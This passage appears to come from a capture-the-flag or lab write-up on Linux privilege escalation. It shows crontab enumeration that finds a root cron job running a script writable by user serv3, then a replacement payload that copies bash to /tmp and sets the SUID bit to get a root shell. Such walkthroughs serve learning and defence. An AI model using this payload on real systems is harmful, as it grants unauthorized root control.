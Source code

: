 # Crontab Entry

While enumerating the machine, I found a cron running as root

```bash
serv2@web-serv:/home/serv2$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *  root /home/serv3/backups/backup.sh
```

The [backup.sh](http://backup.sh) inside the serv3 is running as root.

Let's have a look at that file

```bash
serv2@web-serv:/home/serv3/backups$ ls -la
total 16
drwxr-xr-x 3 serv3 serv3 4096 Feb 15 01:02 .
drwxr-xr-x 3 serv3 serv3 4096 Feb 15 02:02 ..
-r-xr-xr-x 1 serv3 serv3   52 Feb 15 01:02 backup.sh
drwxr-xr-x 2 serv3 serv3 4096 Feb 15 01:01 files
```

This is writeable by serv3 so if we can escalate to serv3 we can get the shell.

```bash
serv2@web-serv:/home/serv3/backups$ cat backup.sh 
#!/bin/bash
mv /backups/* /home/serv3/backups/files
```

Since it has a file running as root. Let's modify that file and get root access with this method.

`/home/serv3/backups/backup.sh` is running as root. 

Using the same payload as above

```bash
#!/bin/bash
cp /bin/bash /tmp/bash
chmod +xs /tmp/bash
```
